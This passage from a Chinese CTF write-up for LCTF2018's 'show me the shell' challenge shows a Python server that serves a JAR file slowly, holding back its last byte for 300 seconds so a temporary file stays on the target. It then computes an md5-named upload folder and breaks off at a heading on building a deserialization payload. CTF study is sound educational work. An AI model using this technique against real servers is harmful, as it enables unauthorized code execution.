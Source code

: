     listen_host = 'localhost' 
    listen_port = 9999 
    jar_file = sys.argv[1]
    
    class JarRequestHandler(socketserver.BaseRequestHandler):  
    	def handle(self):
    		http_req = b''
    		print('New connection:',self.client_address)
    		while b'\r\n\r\n' not in http_req:
    			try:
    				http_req += self.request.recv(4096)
    				print('\r\nClient req:\r\n',http_req.decode())
    				jf = open(jar_file, 'rb')
    				contents = jf.read()
    				headers = ('''HTTP/1.0 200 OK\r\n'''
    				'''Content-Type: application/java-archive\r\n\r\n''')
    				self.request.sendall(headers.encode('ascii'))
    				self.request.sendall(contents[:-1])
    				time.sleep(300)
    				print(30)
    				self.request.sendall(contents[-1:])
    
    			except Exception as e:
    				print ("get error at:"+str(e))
    			
    				
    if __name__ == '__main__':
    
    	jarserver = socketserver.TCPServer((listen_host,listen_port), JarRequestHandler) 
    	print ('waiting for connection...') 
    	server_thread = threading.Thread(target=jarserver.serve_forever) 
    	server_thread.daemon = True 
    	server_thread.start() 
    	server_thread.join()


到此为止，我对整道题的难点分析就结束了，下面就是大致的解题过程

## **0X04 解题过程**

### **1.查看自己的 remote_addr 结合 K0rz3n 字符串生成md5** 

**示例代码：**


    <?php
    
    echo md5("K0rz3n".$_SERVER['REMOTE_ADDR']);

**结果：**

    4253b1c836a25962c1547f7e46f373f1

这个就是我们会在 file 文件夹中生成的文件夹，我们会把我们的 payload 转移到这个文件夹下重命名然后进行包含


### **2.生成反序列化 payload 文件**


  [1]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF_show_me_the_shell_.gif
  [2]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%86_1.png
  [3]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%862.png
  [4]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%86_3.png
  [5]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%86_4.png
  [6]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%865.png
  [7]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%86_6.png
  [8]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018_%E8%AF%84%E8%AE%BA%E6%A1%867.png
  [9]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%868.png
  [10]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%869.png
  [11]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E5%9E%83%E5%9C%BE%E5%AD%97%E8%8A%82.png
  [12]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%8E%B7%E5%BE%97%E8%AF%B7%E6%B1%82.png
  [13]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%8E%B7%E5%BE%97%E4%B8%B4%E6%97%B6%E6%96%87%E4%BB%B6%E5%90%8D.png
  [14]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E6%96%87%E4%BB%B6%E6%8B%B7%E8%B4%9D.png
  [15]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.png
  [16]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20getshell.png
  [17]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20getshell2.png
  [18]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20cookie.png
  [19]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20flag.png